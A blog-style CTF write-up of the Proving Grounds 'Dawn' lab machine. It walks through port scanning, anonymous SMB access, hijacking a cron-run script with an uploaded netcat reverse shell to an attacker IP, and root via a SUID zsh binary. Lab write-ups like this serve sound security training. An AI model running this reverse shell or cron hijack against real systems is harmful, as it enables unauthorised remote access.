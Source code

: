 ```yaml
---
title: "Proving grounds Play: Dawn"
layout: post
date: 2023-09-23 02:00
categories: writeup
---
```


Proving grounds Play - Dawn CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
```

## Web PORT: 80

### Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/Dawn/dir.png)

### Logs

![img](/assets/images/CTF/Proving_Grounds/Dawn/logs.png)

## SMB Enumeration

```sh
smbclient -L //192.168.175.11/ -N
```

![img](/assets/images/CTF/Proving_Grounds/Dawn/smb1.png)

As per the `management.log` file there is a cron job running on `ITDEPT` folder, and in SMB we have access to the ITDEPT folder.

```log
2020/08/12 09:03:02 [31;1mCMD: UID=1000 PID=939    | /bin/sh -c /home/dawn/ITDEPT/product-control [0m
```

Create file named `product-control` add a reverse shell code to the file and upload it in the SMB server.

```sh
#!/bin/bash
nc -c bash 192.168.45.223 1234
```

So when the cronjob runs the script we will get the reverse shell.

![img](/assets/images/CTF/Proving_Grounds/Dawn/smb2.png)

Wait for few seconds for the cron job to run.

![img](/assets/images/CTF/Proving_Grounds/Dawn/shell.png)

**Initial Foothold Obtained**

## Privilege Escalation

Check the user permissions `sudo -l` the user  `Dawn` has permission to run `/usr/bin/msql` without password. But unfortunately it didn't work.

### SUIDs

```sh
dawn@dawn:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/sbin/mount.cifs
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/zsh #Odd to be here
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chfn
```

The SUID `zsh` is exploitable, direct to GTFO bins and find the exploit.

![img](/assets/images/CTF/Proving_Grounds/Dawn/root.png)

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
